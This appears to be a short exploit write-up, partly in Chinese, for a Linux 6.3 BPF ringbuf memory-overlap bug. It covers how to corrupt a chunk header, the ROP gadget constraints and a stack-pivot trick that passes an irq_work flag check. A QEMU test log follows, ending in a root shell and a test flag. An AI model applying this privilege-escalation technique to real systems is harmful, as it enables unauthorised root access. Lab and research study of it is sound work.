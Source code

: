 **kernel version** 
6.3 commit `457391b0380335d5e9a5babdec90ac53928b23b4`

- buf大小选择16K，nr_meta_pages = 4, 这样[0, 0x1000] 与 [0x4000, 0x5000]是同一个page, 0x4000指向了chunk A's hdr
分配出A - [0, 0x3000], B - [0x3008, 0x6000], 通过B's 0x4000可以修改A的hdr meta数据。

```
		if (i >= nr_meta_pages)
			pages[nr_data_pages + i] = page;
```


所有的rop必须在[_stext, _etext]之间，否则会触发NX错误：  
```
81.766165] kernel tried to execute NX-protected page - exploit attempt? (uid: 1000)
[   81.792896] BUG: unable to handle page fault for address: ffffffff8299a052
[   81.810767] #PF: supervisor instruction fetch in kernel mode
[   81.823853] #PF: error_code(0x0011) - permissions violation
ts[0[  ] 81:. 853,6 socket248] PGD 3c46067 P4D 3c46067 PUD 3c47063 PMD 80000000028001e1
[   81.851043] Oops: 0011 [#1] PREEMPT SMP PTI
```

stack pivot rop 未找到rsp设置成功后避开+0x20的rop，+0x20处是flag，最低位为0x22可绕过:  
`irq_work_claim`有flag检查` if (oflags & IRQ_WORK_PENDING)`, 选择地址地末位是0x22的rop：`pop r13, pop r14, pop rbp, ret`

```
0x22 == CSD_TYPE_IRQ_WORK(0x20) | IRQ_WORK_BUSY (0x02);
IRQ_WORK_PENDING = 0x1
struct irq_work {
	struct __call_single_node node;
	void (*func)(struct irq_work *);
	struct rcuwait irqwait;
};

struct __call_single_node {
	struct llist_node	llist;
	union {
		unsigned int	u_flags;
		atomic_t	a_flags;
	};
#ifdef CONFIG_64BIT
	u16 src, dst;
#endif
};
```
*test:*   
```
$ ./poc
Hello World!
ringbuf after create map: 3
try to wait core
[   95.464768] BUG: scheduling while atomic: poc/354/0x00010002
[   95.478632] Modules linked in:

progfd: 4
sock[   95.486469] Preemption disabled at:
[   95.486474] [<ffffffff81310e23>] irq_work_queue+0x23/0x50
ets[0]: 5, socke[   95.508029] CPU: 1 PID: 354 Comm: poc Not tainted 6.3.0 #93
[   95.526632] Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS 1.16.3-debian-1.16.3-2 04/01/2014
t[1]: 6
[   95.599172] Call Trace:
[   95.677927] ------------[ cut here ]------------
[   95.683175] Voluntary context switch within RCU read-side critical section!
[   95.683816] WARNING: CPU: 1 PID: 354 at kernel/rcu/tree_plugin.h:318 rcu_note_context_switch+0x62c/0x690
[   95.713178] Modules linked in:
[   95.718262] CPU: 1 PID: 354 Comm: poc Tainted: G        W          6.3.0 #93
[   95.735521] Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS 1.16.3-debian-1.16.3-2 04/01/2014
[   95.752900] RIP: 0010:rcu_note_context_switch+0x62c/0x690
[   95.762138] Code: 00 00 00 00 0f 85 0d fd ff ff 49 89 8c 24 a0 00 00 00 e9 00 fd ff ff 48 c7 c7 a8 24 27 83 c6 05 75 08 ce 02 01 e8 a4 82 f6 ff <0f> 0b e9 3b fa ff ff 49 83 bc 24 98 00 00 00 00 49 8b 84 24 a0 00
[   95.793147] RSP: 0018:ffffc900009adf40 EFLAGS: 00010086
[   95.801582] RAX: 0000000000000000 RBX: ffff88813bcb3700 RCX: 0000000000000000
[   95.814821] RDX: 0000000000000003 RSI: 0000000000000027 RDI: 00000000ffffffff
[   95.828898] RBP: 0000000000000000 R08: 00000000ffffdfff R09: 0000000000000001
[   95.840645] R10: 00000000ffffdfff R11: ffffffff83c7afa0 R12: ffff88813bcb2880
[   95.854500] R13: ffff888102acb240 R14: 0000000000000000 R15: 0000000000000000
[   95.871507] FS:  0000000000da2380(0000) GS:ffff88813bc80000(0000) knlGS:0000000000000000
[   95.890278] CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
[   95.901485] CR2: 00000000004b9000 CR3: 0000000102a02000 CR4: 0000000000050ee0
[   95.918447] Call Trace:
[   95.925747] ---[ end trace 0000000000000000 ]---
[   96.027876] poc[355]: segfault at 0 ip 000000000040248d sp 00007ffc781827d0 error 6 in poc[401000+89000] likely on CPU 1 (core 1, socket 0)
[   96.075993] Code: df e8 97 fb 01 00 ba 10 00 00 00 4c 89 ee 48 89 ef e8 47 ec ff ff 85 c0 0f 85 4f ff ff ff 48 8d 3d d6 7b 08 00 e8 03 46 00 00 <48> c7 04 25 00 00 00 00 00 00 00 00 0f 0b 0f 1f 44 00 00 f3 0f 1e
check core: /proc/sys/kernel/core_pattern
Root shell !!
FLAG{test-by-hxqu}
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
root@wintermute:/#
root@wintermute:/# whoami
root
```



when sweep consumer and producer,  as userspace to be the producer, and this time more memory can mapped to userspace

